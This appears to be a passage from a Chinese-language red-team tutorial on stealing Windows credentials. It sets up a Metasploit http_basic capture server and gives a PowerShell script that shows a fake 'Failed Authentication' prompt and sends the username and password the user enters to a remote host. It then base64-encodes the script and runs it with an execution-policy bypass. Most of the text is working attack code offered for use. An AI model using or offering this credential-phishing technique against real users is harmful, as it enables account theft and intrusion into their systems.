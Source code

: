 ### 自定义脚本

首先使用 metasploit 中的 http\_basic 模块设置一个需要基本身份验证的 HTTP 服务器：

> use auxiliary/server/capture/http\_basic set URIPATH /

使用下面的 powershell 代码创建输入提示符窗口，并将凭据通过 HTTP 请求发送至远程 Metasploit 服务器，从而获取凭证：

```bash
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName + "\" + [Environment]::UserName,[Environment]::UserDomainName);[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};
$wc = new-object net.webclient;
$wc.Headers.Add("User-Agent","Wget/1.9+cvs-stable (Red Hat modified)");
$wc.Proxy = [System.Net.WebRequest]::DefaultWebProxy;
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
$wc.credentials = new-object system.net.networkcredential($cred.username, $cred.getnetworkcredential().password, '');
$result = $wc.downloadstring('http://10.0.0.13/');
```

为了方便操作，需要将以上代码转为 base64，转换之前需要使用 UTF-16LE 字符编码，然后再进行 Base64：

> cat popup.txt | iconv -t UTF-16LE cat popup.txt | iconv -t UTF-16LE | base64 -w0

![图片](assets/1710388646-0f2d482acff1efe5880af9f09b3a5295.webp)

使用下面的命令将 base64 的 payload 执行：

> powershell.exe -ep bypass -enc
